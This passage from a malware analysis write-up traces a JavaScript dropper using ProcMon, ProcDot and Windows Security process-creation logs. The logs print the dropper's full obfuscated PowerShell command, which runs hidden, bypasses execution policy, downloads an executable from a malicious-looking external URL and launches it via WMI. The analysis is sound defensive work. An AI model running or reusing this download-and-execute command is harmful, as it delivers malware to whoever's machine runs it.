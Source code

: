 The first thing I’ll look at is what processes started and by who. To do that,
we’ll unselect all of the event types except for “Show Process and Thread
Activity” like this:

![1530929789801](https://0xdfimages.gitlab.io/img/1530929789801.png)

Next, we’ll right click on a “Thread Create” event and select “Exclude Thread
Create”. We’ll do the same for “Threat Exit” and “Load Image”. We’re left with
a nice picture of what happened:

![1530930022323](https://0xdfimages.gitlab.io/img/1530930022323.png)

We can also click on the “Process Tree” button to get a graphical image:

![1530930206146](https://0xdfimages.gitlab.io/img/1530930206146.png)

#### ProcDot

For an even more detailed graph of what happened, we can export the ProcMon
data in csv form and load it into ProcDot:

![1530930317287](https://0xdfimages.gitlab.io/img/1530930317287.png)

#### Windows Logs

Finally, let’s see what we captured in Windows Logs.

##### Security Logs

In the Security logs, we see 4 4688 Process Creation logs:

![1530930564441](https://0xdfimages.gitlab.io/img/1530930564441.png)

They are:

  1. `wscript.exe`
     * command line: `wscript 2bcd28a0723854c7ef229084d278af6e648c06de695018c070688f262f40e0a5.js`
     * parent process: `cmd.exe`
     * pid: 0x1260
     * parent pid: 0x1f0
  2. `cmd.exe`
     * command line: `"C:\Windows\System32\cmd.exe" /c powershell.exe -noprofile -windowstyle hidden -executionpolicy bypass (new-object system.net.webclient).downloadfile('http://gostat.dhl-tcp.com/page818.php','%tEmp%oUE18.EXE'); Invoke-WmIMethoD -ClAsS WiN32_PrOcess -NAmE CrEAte -ArgUmentLisT '%temP%oUE18.Exe'`
     * parent process: `wscript.exe`
     * pid: 0x1708
     * parent pid: 0x1260
  3. `conhost.exe`
     * command line: `\??\C:\WINDOWS\system32\conhost.exe 0xffffffff -ForceV1`
     * parent process: `cmd.exe`
     * pid: 0x1170
     * parent pid: 0x1708
  4. `powershell.exe`
     * command line: `powershell.exe -noprofile -windowstyle hidden -executionpolicy bypass (new-object system.net.webclient).downloadfile('http://gostat.dhl-tcp.com/page818.php','C:\Users\REM\AppData\Local\TempoUE18.EXE'); Invoke-WmIMethoD -ClAsS WiN32_PrOcess -NAmE CrEAte -ArgUmentLisT 'C:\Users\REM\AppData\Local\TempoUE18.Exe'`
     * parent process: `cmd.exe`
     * pid: 0xac0
     * parent pid: 0x1708

